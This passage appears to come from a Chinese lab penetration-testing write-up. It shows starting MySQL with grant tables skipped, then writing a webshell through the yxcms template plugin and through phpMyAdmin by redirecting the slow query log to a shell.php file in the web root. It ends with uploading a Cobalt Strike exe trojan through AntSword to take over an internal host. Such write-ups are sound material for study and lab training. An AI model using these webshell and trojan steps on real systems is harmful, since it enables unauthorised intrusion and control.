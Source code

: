 **启动mysql服务：**

```plain
mysqld --install

mysqld --defaults-file="C:/phpStudy/mysql/my.ini" --console --skip-grant-tables
```

[![](assets/1701827767-dc7f083c8c608484152a8a962aaae634.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191046-710e6cee-9103-1.png)

## 外网打点：

### 漏洞一：yxcms弱口令登录，插件模板写马

### 漏洞二：phpMyAdmin慢查询写马

```plain
show variables like '%slow%';
set GLOBAL slow_query_log_file='C:/phpStudy/WWW/shell.php';
set GLOBAL slow_query_log=on;
set GLOBAL log_queries_not_using_indexes=on;
```

[![](assets/1701827767-76bc66dc2ae88212cb1d8dea489cdad4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191101-7a4f48e6-9103-1.png)

## 内网上线(143机器)：

### CS文件马上线：

通过CS制作exe文件木马上传蚁剑然后运行上线CS
